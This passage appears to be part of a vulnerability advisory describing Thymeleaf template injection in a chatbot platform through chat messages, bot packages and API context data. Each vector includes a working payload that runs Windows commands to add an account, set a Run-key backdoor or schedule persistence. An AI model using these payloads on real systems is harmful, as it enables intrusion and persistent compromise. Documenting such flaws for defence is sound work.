 ### Vector 1: Conversation Memory Context Injection

**Entry Point**: User message input through chat interface
**Flow**: 
1. User sends malicious message containing Thymeleaf expressions
2. Message stored in ConversationMemory
3. OutputTemplateTask processes message through TemplatingEngine
4. Malicious expressions executed during template rendering

**Example Attack:**
```json
{
  "message": "Hello ${T(java.lang.Runtime).getRuntime().exec('cmd /c net user attacker password123 /add')}"
}
```

### Vector 2: Bot Package Template Injection

**Entry Point**: Malicious bot packages uploaded to system
**Flow**:
1. Attacker creates bot package with malicious templates
2. Package contains Thymeleaf templates with embedded expressions
3. Bot execution triggers template processing
4. Malicious code executes with system privileges

**Example Malicious Template:**
```html
<div th:text="${T(java.lang.Runtime).getRuntime().exec('cmd /c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /d C:\\malware.exe')}">
  Loading...
</div>
```

### Vector 3: Context Variable Manipulation

**Entry Point**: API endpoints accepting context data
**Flow**:
1. Attacker sends crafted API requests with malicious context
2. Context data flows into template processing
3. JsonSerializationThymeleafDialect processes malicious expressions
4. Code execution occurs during serialization

**Example API Payload:**
```json
{
  "context": {
    "data": "@{T(java.lang.Runtime).getRuntime().exec('cmd /c schtasks /create /tn Persistence /tr C:\\backdoor.exe /sc onlogon')}"
  }
}
```

## Exploitation Demonstration
